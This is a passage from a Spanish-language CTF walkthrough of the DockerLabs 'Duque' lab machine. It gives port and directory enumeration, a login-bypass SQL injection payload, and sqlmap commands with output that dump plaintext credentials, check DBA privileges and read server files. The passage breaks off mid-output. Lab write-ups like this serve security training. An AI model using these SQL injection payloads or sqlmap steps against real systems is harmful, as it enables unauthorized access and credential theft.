









# Duque DockerLabs (Easy)

## Contexto de la maquina

### Trayectoria Duque

<figure><figcaption></figcaption></figure>

### Descripción

La máquina **Duque** es un laboratorio de tipo Linux enfocado principalmente en la explotación de vulnerabilidades web y escalada de privilegios mediante configuraciones inseguras del sistema.

Durante el reto se explotan varias debilidades encadenadas:

* Enumeración de directorios web.
* Inyección SQL en un panel de autenticación.
* Extracción de credenciales desde la base de datos.
* Lectura arbitraria de archivos mediante privilegios elevados en MariaDB/MySQL.
* Acceso remoto por SSH reutilizando credenciales expuestas.
* Escalada de privilegios mediante un binario SUID inseguro.

**Objetivo del reto**

Obtener acceso inicial al sistema mediante la aplicación web vulnerable y posteriormente escalar privilegios hasta convertirse en `root`.

**Tipo de máquina**

* Linux
* Web Application
* Privilege Escalation
* SQL Injection

**Técnicas y habilidades evaluadas**

* Enumeración de servicios
* Fuzzing de directorios web
* SQL Injection manual y automatizada
* Uso de `sqlmap`
* Extracción de información sensible desde bases de datos
* Lectura arbitraria de archivos
* Acceso SSH con credenciales reutilizadas
* Enumeración de binarios SUID
* Escalada de privilegios en Linux

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip duque.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh duque.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-15 14:31 +0000
Nmap scan report for 172.17.0.2
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 84:aa:fd:4d:67:65:79:a1:a9:5a:76:55:04:5a:21:b5 (ECDSA)
|_  256 67:bb:74:40:28:18:94:00:0c:bf:fc:08:17:b1:61:8b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: NaturGas Solutions - Dashboard Corporativo
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.28 seconds
```

Observamos únicamente dos puertos abiertos:

* **22/tcp** → Servicio SSH (`OpenSSH 8.9p1`)
* **80/tcp** → Servidor web Apache2 (`Apache 2.4.52`)

El servicio HTTP parece ser el vector más interesante, por lo que accedemos a la aplicación web para comenzar con la fase de reconocimiento.

```
URL = http://<IP>/
```

Respuesta:

<figure><figcaption></figcaption></figure>

A simple vista, la aplicación parece un panel corporativo normal sin funcionalidades especialmente interesantes. Debido a ello, continuamos con una fase de enumeración de directorios y recursos ocultos mediante fuzzing.

## Enumeración de directorios con Gobuster

Utilizamos `gobuster` para descubrir rutas ocultas dentro del servidor web:

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Respuesta:

```
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.php            (Status: 200) [Size: 11622]
intranet             (Status: 200) [Size: 1889]
bills                (Status: 200) [Size: 4676]
server-status        (Status: 403) [Size: 275]
Progress: 882232 / 882232 (100.00%)
===============================================================
Finished
===============================================================
```

El escaneo revela varios recursos interesantes:

* `/intranet`
* `/bills`
* `/server-status`

El directorio `/intranet` devuelve un **403 Forbidden** personalizado, por lo que inicialmente no podemos acceder a su contenido.

Sin embargo, el directorio `/bills` expone un formulario de autenticación que podría ser un punto de entrada interesante.

<figure><figcaption></figcaption></figure>

## SQL Injection (SQLi)

<figure><figcaption></figcaption></figure>

Probamos inicialmente una inyección SQL básica en el formulario de autenticación utilizando el clásico bypass:

```
User: ' OR 1=1-- -
Pass: ' OR 1=1-- -
```

Tras enviar el payload, conseguimos autenticarnos como el usuario `mario`:

<figure><figcaption></figcaption></figure>

Aunque el acceso es válido, el usuario no dispone de privilegios suficientes para visualizar el área de facturación, que probablemente sea la funcionalidad más sensible de la aplicación.

Aun así, esto confirma que el formulario es vulnerable a **SQL Injection**, por lo que podemos explotar la vulnerabilidad para extraer información directamente de la base de datos.

### Identificación de la vulnerabilidad con sqlmap

Abrimos las herramientas de desarrollador del navegador (`DevTools`) y capturamos la petición `POST` generada al iniciar sesión. Exportamos la petición en formato `curl` y la adaptamos para utilizarla con `sqlmap`.

El comando final queda de la siguiente forma:

```shell
sqlmap 'http://<IP>/bills/index.php' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://172.17.0.2' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://172.17.0.2/bills/index.php' \
  -H 'Cookie: PHPSESSID=f8aftlbipe6ejsdqfd26pc7d0f' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
  --data-raw 'username=admin&password=admin' --batch
```

Respuesta:

```
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.12#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:49:32 /2026-05-15/

[14:49:32] [INFO] testing connection to the target URL
[14:49:32] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:49:32] [INFO] testing if the target URL content is stable
[14:49:32] [INFO] target URL content is stable
[14:49:32] [INFO] testing if POST parameter 'username' is dynamic
[14:49:32] [WARNING] POST parameter 'username' does not appear to be dynamic
[14:49:32] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[14:49:32] [INFO] testing for SQL injection on POST parameter 'username'
[14:49:32] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:49:33] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:49:33] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[14:49:33] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[14:49:33] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[14:49:33] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[14:49:33] [INFO] testing 'Generic inline queries'
[14:49:33] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[14:49:33] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[14:49:33] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[14:49:33] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:49:43] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[14:49:43] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:49:43] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
got a refresh intent (redirect like response common to login pages) to 'panel.php'. Do you want to apply it from now on? [Y/n] Y
[14:49:43] [INFO] target URL appears to be UNION injectable with 3 columns
[14:49:43] [INFO] POST parameter 'username' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 79 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8838 FROM (SELECT(SLEEP(5)))bgHH) AND 'hkAR'='hkAR&password=admin

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=-2277' UNION ALL SELECT NULL,CONCAT(0x716a766271,0x576d76424b664855446b42464e676d4a626f79684d6f554a714659547372485050624b74424e4346,0x7162766271),NULL-- -&password=admin
---
[14:49:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[14:49:43] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 42 times
[14:49:43] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 14:49:43 /2026-05-15/
```

`sqlmap` confirma que el parámetro `username` es vulnerable a SQLi y detecta múltiples técnicas de explotación:

* **Time-based blind SQL Injection**
* **UNION-based SQL Injection**

Además, identifica que el backend utiliza **MariaDB/MySQL** sobre Ubuntu 22.04.

### Enumeración de bases de datos

Una vez confirmada la vulnerabilidad, procedemos a enumerar las bases de datos disponibles en el servidor:

```shell
sqlmap 'http://172.17.0.2/bills/index.php' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://172.17.0.2' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://172.17.0.2/bills/index.php' \
  -H 'Cookie: PHPSESSID=f8aftlbipe6ejsdqfd26pc7d0f' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
  --data-raw 'username=admin&password=admin' --batch --dbs
```

Respuesta:

```
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.12#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:50:19 /2026-05-15/

[14:50:19] [INFO] resuming back-end DBMS 'mysql' 
[14:50:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8838 FROM (SELECT(SLEEP(5)))bgHH) AND 'hkAR'='hkAR&password=admin

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=-2277' UNION ALL SELECT NULL,CONCAT(0x716a766271,0x576d76424b664855446b42464e676d4a626f79684d6f554a714659547372485050624b74424e4346,0x7162766271),NULL-- -&password=admin
---
[14:50:19] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[14:50:19] [INFO] fetching database names
got a refresh intent (redirect like response common to login pages) to 'panel.php'. Do you want to apply it from now on? [Y/n] Y
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] register
[*] sys

[14:50:19] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 14:50:19 /2026-05-15/
```

La base de datos más interesante es `register`, ya que probablemente almacene información relacionada con usuarios de la aplicación.

### Enumeración de tablas

Procedemos a listar las tablas de la base de datos `register`:

```shell
sqlmap 'http://172.17.0.2/bills/index.php' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://172.17.0.2' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://172.17.0.2/bills/index.php' \
  -H 'Cookie: PHPSESSID=f8aftlbipe6ejsdqfd26pc7d0f' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
  --data-raw 'username=admin&password=admin' --batch -D register --tables
```

Respuesta:

```
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.12#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:53:01 /2026-05-15/

[14:53:01] [INFO] resuming back-end DBMS 'mysql' 
[14:53:01] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8838 FROM (SELECT(SLEEP(5)))bgHH) AND 'hkAR'='hkAR&password=admin

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=-2277' UNION ALL SELECT NULL,CONCAT(0x716a766271,0x576d76424b664855446b42464e676d4a626f79684d6f554a714659547372485050624b74424e4346,0x7162766271),NULL-- -&password=admin
---
[14:53:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[14:53:01] [INFO] fetching tables for database: 'register'
got a refresh intent (redirect like response common to login pages) to 'panel.php'. Do you want to apply it from now on? [Y/n] Y
Database: register
[1 table]
+-------+
| users |
+-------+

[14:53:01] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 14:53:01 /2026-05-15/
```

La base de datos contiene una única tabla llamada `users`.

### Volcado de credenciales

Finalmente, volcamos el contenido de la tabla `users`:

```shell
sqlmap 'http://172.17.0.2/bills/index.php' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://172.17.0.2' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://172.17.0.2/bills/index.php' \
  -H 'Cookie: PHPSESSID=f8aftlbipe6ejsdqfd26pc7d0f' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
  --data-raw 'username=admin&password=admin' --batch -D register -T users --dump
```

Respuesta:

```
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.12#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:53:16 /2026-05-15/

[14:53:16] [INFO] resuming back-end DBMS 'mysql' 
[14:53:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8838 FROM (SELECT(SLEEP(5)))bgHH) AND 'hkAR'='hkAR&password=admin

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=-2277' UNION ALL SELECT NULL,CONCAT(0x716a766271,0x576d76424b664855446b42464e676d4a626f79684d6f554a714659547372485050624b74424e4346,0x7162766271),NULL-- -&password=admin
---
[14:53:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[14:53:16] [INFO] fetching columns for table 'users' in database 'register'
got a refresh intent (redirect like response common to login pages) to 'panel.php'. Do you want to apply it from now on? [Y/n] Y
[14:53:16] [INFO] fetching entries for table 'users' in database 'register'
Database: register
Table: users
[3 entries]
+----+-----------+----------+
| id | passwd    | username |
+----+-----------+----------+
| 1  | mario123  | mario    |
| 2  | jesus2026 | jesus    |
| 3  | admin123  | admin    |
+----+-----------+----------+

[14:53:16] [INFO] table 'register.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/172.17.0.2/dump/register/users.csv'
[14:53:16] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 14:53:16 /2026-05-15/
```

La explotación ha sido exitosa y hemos conseguido extraer las credenciales de varios usuarios de la aplicación.

El usuario más interesante es `admin`, por lo que intentaremos autenticarnos con las credenciales obtenidas:

```
User: admin
Pass: admin123
```

Si probamos acceder con las credenciales obtenidas, veremos que el login funciona correctamente y podremos entrar al panel de facturación:

<figure><figcaption></figcaption></figure>

Al seleccionar cualquiera de los archivos disponibles, la aplicación nos muestra la información asociada al mismo. Observando la petición, veremos que el identificador del archivo se refleja directamente en el parámetro `id` de la URL:

```
URL = http://<IP>/bills/panel.php?id=xya456
```

A simple vista, este comportamiento podría ser interesante de cara a probar un posible **Command Injection** o incluso algún tipo de **LFI**, ya que el parámetro parece controlar dinámicamente el contenido mostrado.

## Escalate user `duque`

Tras realizar varias pruebas sobre el parámetro `id`, veremos que no parece existir una vulnerabilidad directa de Command Injection. Sin embargo, teniendo ya confirmada una vulnerabilidad **SQL Injection**, se me ocurrió intentar aprovecharla para acceder a archivos internos del sistema mediante las capacidades del propio motor MySQL/MariaDB.

Lo primero será comprobar si el usuario de base de datos posee privilegios elevados, concretamente permisos de tipo DBA:

```shell
sqlmap 'http://172.17.0.2/bills/index.php' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://172.17.0.2' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://172.17.0.2/bills/index.php' \
  -H 'Cookie: PHPSESSID=f8aftlbipe6ejsdqfd26pc7d0f' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
  --data-raw 'username=admin&password=admin' --batch --is-dba
```

Respuesta:

```
       ___
       __H__
 ___ ___[)]_____ ___ ___  {1.9.12#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:16:24 /2026-05-15/

[15:16:24] [INFO] resuming back-end DBMS 'mysql' 
[15:16:24] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8838 FROM (SELECT(SLEEP(5)))bgHH) AND 'hkAR'='hkAR&password=admin

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=-2277' UNION ALL SELECT NULL,CONCAT(0x716a766271,0x576d76424b664855446b42464e676d4a626f79684d6f554a714659547372485050624b74424e4346,0x7162766271),NULL-- -&password=admin
---
[15:16:24] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[15:16:24] [INFO] testing if current user is DBA
[15:16:24] [INFO] fetching current user
got a refresh intent (redirect like response common to login pages) to 'panel.php'. Do you want to apply it from now on? [Y/n] Y
current user is DBA: True
[15:16:24] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 15:16:24 /2026-05-15/
```

Veremos que el usuario de base de datos tiene privilegios de tipo DBA, lo que nos permitirá interactuar con el sistema de archivos del servidor a través de funciones nativas de MySQL/MariaDB.

Con esto en mente, vamos a intentar leer directamente el archivo `panel.php`, ya que es el encargado de gestionar el parámetro `id`:

```shell
sqlmap 'http://172.17.0.2/bills/index.php' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://172.17.0.2' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://172.17.0.2/bills/index.php' \
  -H 'Cookie: PHPSESSID=f8aftlbipe6ejsdqfd26pc7d0f' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
  --data-raw 'username=admin&password=admin' --batch --file-read "/var/www/html/bills/panel.php"
```

Respuesta:

```
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.12#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:20:42 /2026-05-15/

[15:20:42] [INFO] resuming back-end DBMS 'mysql' 
[15:20:42] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8838 FROM (SELECT(SLEEP(5)))bgHH) AND 'hkAR'='hkAR&password=admin

